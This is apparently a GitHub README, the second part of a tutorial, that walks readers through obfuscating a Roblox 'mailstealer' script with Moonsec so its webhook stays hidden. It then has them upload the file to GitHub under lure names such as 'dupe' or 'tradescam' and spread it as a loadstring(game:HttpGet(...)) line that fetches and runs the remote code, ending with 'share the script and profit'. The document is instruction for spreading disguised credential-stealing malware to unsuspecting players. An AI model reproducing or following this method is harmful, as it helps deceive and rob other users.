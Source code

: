 ![image](https://github.com/Enivzoy/Aurora/assets/130647229/e6f2ffd4-7981-40f5-bdd7-bc6d3715fd11)# [click me for part 1](https://github.com/Enivzoy/Aurora/blob/main/README.md)
Now for the last part
# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join [moonsex](https://discord.gg/2Eah77h8KC)  
you dm this bot  
![Preview](https://cdn.discordapp.com/attachments/1240373088063983767/1240554599815843851/image.png?ex=6646fc00&is=6645aa80&hm=c00059eb81d41af59246559ce05a91eaec6fe9c490db324228a0ee55a37fb126&)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555304484212778/image.png?ex=6646fca8&is=6645ab28&hm=e403deb16ee5097d3ad0f4d7d13d64a2f71e97a3de3eabfbf4d055d99174af7a&)  
click this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555577516752957/image.png?ex=6646fcea&is=6645ab6a&hm=b01cb252bd11400c8d78656accf3422644a40c39a9e474bf1b16be970566403c&)   
then you click this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555948314202132/image.png?ex=6646fd42&is=6645abc2&hm=5e25be2cf8ea0ebfdfec50181b99cd40eac73ccd3acb85ab8dfdf7fbeef9f5d3&)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558027157934100/image.png?ex=6646ff32&is=6645adb2&hm=adb18e7598664a0ac26dbcbe0d8e8ea41cea89dee44ff07923b8c4a9eb5e9e80&)  
clickk this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558199116140584/image.png?ex=6646ff5b&is=6645addb&hm=f1cec2fc885f0a64552c64bf6153e61052b96a34d3c740606f4b87573f454243&)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558489231953921/image.png?ex=6646ffa0&is=6645ae20&hm=197bb89a6471aba248a44fe8a1f28651b414a95353cf59c5ef4f2a0f00f57ca5&)  
click create repo when filling in everything  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558688423510017/image.png?ex=6646ffcf&is=6645ae4f&hm=252937aa1796623521a705bea3941a1c2df600fed9717a6510ec4c3f14a5b2cc&)   
it will now show this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558792157040723/image.png?ex=6646ffe8&is=6645ae68&hm=50af32f57953c5e37732994dff3c29b9758984266c349ab2c6b671201cb9ab2e&)  
click  uploading an existing file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558918015647774/image.png?ex=66470006&is=6645ae86&hm=69cf068aab1fc306b93d1e024919c032102b09e9544e239f4892ed41c7eeb329&)  
it will open this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559024924000266/image.png?ex=66470020&is=6645aea0&hm=218cd3f3460bcafc85b1735fec8d25d7d869bc2c783fb72912e38b7399d65e21&)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559309784612924/image.png?ex=66470063&is=6645aee3&hm=43daaffdb521616038afa74a314ef65bc9325ed804c8867abef887b674459059&)  
drag and drop your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559469205913600/image.png?ex=66470089&is=6645af09&hm=b55d0ff1ef2b1d1b85707de94f60de1f99f603b03ab874bc257c8667be64ca49&)  
once uploaded click commit changes  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559673501814784/image.png?ex=664700ba&is=6645af3a&hm=6a240985d7a85cd90c53b08b87dd5688edfbbb2e70ec97d64716a1989ee9c47e&)  
if youve done everything right to this point it should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559816875970642/image.png?ex=664700dc&is=6645af5c&hm=31253e6aa23e6eced61432a3cf8440d62c331a3d320af266186237f88cdaa1ea&)  
click your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559950447771689/image.png?ex=664700fc&is=6645af7c&hm=8646488d24043feb95148a50b2ef0e1c93fac4bdabc2b37318403b4798c99627&)  
it should open this up, then click raw  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560086980497431/image.png?ex=6647011d&is=6645af9d&hm=f245933b5d8685c95f89496c88ccf57a774e468e5db0a611eea3284258268148&)  
you will see this mess  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560206887260262/image.png?ex=66470139&is=6645afb9&hm=97fa956118a1ed90222e0580202ce8b3eb58eebc28266688a6d0db15ef111f27&)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560332368510986/image.png?ex=66470157&is=6645afd7&hm=3f0426b6aadc9d427da50fd1983e72f33f64bce6e7f3600ccb82e70a49568215&)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc
